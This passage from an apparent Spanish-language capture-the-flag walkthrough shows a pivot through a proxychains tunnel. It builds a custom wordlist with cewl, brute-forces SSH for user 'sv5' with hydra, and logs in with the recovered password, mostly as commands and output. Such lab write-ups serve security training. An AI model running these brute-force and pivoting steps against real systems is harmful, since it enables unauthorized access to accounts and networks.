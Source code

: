 De esta información extraemos un potencial usuario de la máquina `sv5`. Podríamos probar a realizar un ataque de fuerza bruta para extraer la contraseña del usuario en cuestión pero si tratamos de usar el típico `rockyou.txt` no conseguimos nada. Procedemos a realizar un diccionario personalizado con la herramienta `cewl` sobre la página principal de apache encontrada anteriormente. Tenemos que usar `proxychains` para poder llegar a través del túnel creado con chisel

```bash
❯ proxychains cewl.rb -w diccionario.txt http://10.10.0.138
ProxyChains-3.1 (http://proxychains.sf.net)
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.138:80-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.138:80-<><>-OK
❯ ls
 diccionario.txt
```

Con el diccionario personalizado procedemos a realizar un ataque de fuerza bruta por ssh

```bash
❯ proxychains hydra -l sv5 -P diccionario.txt ssh://10.10.0.138 -t 50 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-25 16:17:38
[DATA] max 50 tasks per 1 server, overall 50 tasks, 238 login tries (l:1/p:238), ~5 tries per task
[DATA] attacking ssh://10.10.0.138:22/
[22][ssh] host: 10.10.0.138   login: sv5   password: whoistheplug
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 32 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-25 16:17:46
```

Conseguimos la credencial de `sv5` procedemos a conectarnos por SSH

```bash
❯ proxychains ssh sv5@10.10.0.138
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.138:22-<><>-OK
The authenticity of host '10.10.0.138 (10.10.0.138)' can t be established.
ECDSA key fingerprint is SHA256:PTghBsVWod0mGjVvof7umjMUnWtgEE6zvYPWZqEgcX4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.0.138' (ECDSA) to the list of known hosts.
sv5@10.10.0.138 s password: 
Linux masashi 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct 22 06:39:03 2020
sv5@masashi:~$
```
